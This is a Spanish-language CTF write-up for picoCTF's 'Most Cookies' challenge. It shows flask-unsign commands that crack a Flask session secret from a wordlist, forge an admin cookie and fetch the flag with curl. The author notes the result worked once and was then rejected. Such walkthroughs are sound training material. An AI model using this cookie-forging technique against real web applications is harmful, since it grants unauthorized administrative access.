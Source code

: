 
## Reto
Most Cookies

## Descripcion
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/

## Solucion
- Abrimos la pagina y nos da un cuadro de texto
- Al poner cualquier cosa nos genera una cookie encriptada con flask
- para desincreptarla usaremos flask-unsign de python
- al tratar de instalarlo nos marca error por lo que usaremos un entorno virtual
```
python -m venv ~/.venv 
source ~/.venv/bin/activate 
pip3 install flask-unsign
```
- como nos dieron el codigo fuente con todas las listas de palabras creamos `nano cookies.txt` y dentro ponemos la lista de todas las palabras posibles separadas por salto de linea
- usando esa lista aplicamos `flask-unsign --unsign --cookie "[cookie copiada]" --wordlist cookies.txt` y nos regresa la palabra secreta

- Con la palabra secreta ahora aplicamos `flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret '[palabra secreta]' [cookie copiada]` 
  y nos regresa una cookie de admin

- Ahora aplicamos `curl -s http://mercury.picoctf.net:65344/display -H "Cookie: session=[cookie admin]" | grep pico` para que nos regrese la respuesta de admin y encontrar la bandera facil con un grep

## ALT
- correr un script que no me funciono
## Notas
- una cookie de flask no es muy segura y depende de como las configuramos
- trate de seguir una solucion pero no me da
- luego veo un video para poder subirlo bien

### **No se porque nomas me funciono 1 vez pero la bandera no sirvio y ya no volvio a servir**

<img width="1047" height="589" alt="image" src="https://github.com/user-attachments/assets/f07d5ff1-218b-4517-8062-016569e29ef8" />

## Referencias
[PicoCTF 2021 — Most Cookies - Private User HQ - Medium](https://medium.com/private-user-hq/picoctf-2021-most-cookies-7f3d8b6cd0b)
